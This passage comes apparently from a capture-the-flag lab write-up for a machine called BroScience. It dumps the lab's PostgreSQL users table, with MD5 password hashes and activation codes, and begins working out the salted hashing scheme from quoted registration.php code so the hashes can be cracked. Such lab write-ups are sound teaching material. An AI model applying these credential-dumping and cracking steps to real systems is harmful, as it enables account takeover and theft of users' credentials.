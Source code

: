     
    broscience=> \dt
               List of relations
     Schema |   Name    | Type  |  Owner   
    --------+-----------+-------+----------
     public | comments  | table | postgres
     public | exercises | table | postgres
     public | users     | table | postgres
    (3 rows)
    

The `users` table has five users besides the account I created:

    
    
    broscience=> select * from users;
     id |   username    |             password             |            email             |         activation_code          | is_activated | is_admin |         date_created          
    ----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
      1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
      2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
      3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
      4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
      5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
      6 | 0xdf          | 79275232b2c9c937f145d7cc13d9339b | 0xdf@broscience.htb          | nH8VDTNVuZpI2UPif9QdCsgXzCLJrbfY | t            | f        | 2023-03-30 20:13:51.584023-04
    (6 rows)
    

### Cracking Hashes

#### Manual Enumeration

The password for the 0xdf user is “0xdf”, and the hash looks like an MD5 (just
based on length). But just taking an MD5 of “0xdf” doesn’t match:

    
    
    oxdf@hacky$ echo -n "0xdf" | md5sum
    465e929fc1e0853025faad58fc8cb47d  -
    

I’ll look at `registration.php`, and these two lines are where the account is
created and inserted into the DB:

    
    
    $res = pg_prepare($db_conn, "create_user_query", 'INSERT INTO users (username, password, email, activation_code) VALUES ($1, $2, $3, $4)');
    $res = pg_execute($db_conn, "create_user_query", array($_POST['username'], md5($db_salt . $_POST['password']), $_POST['email'], $activation_
    code)); 
    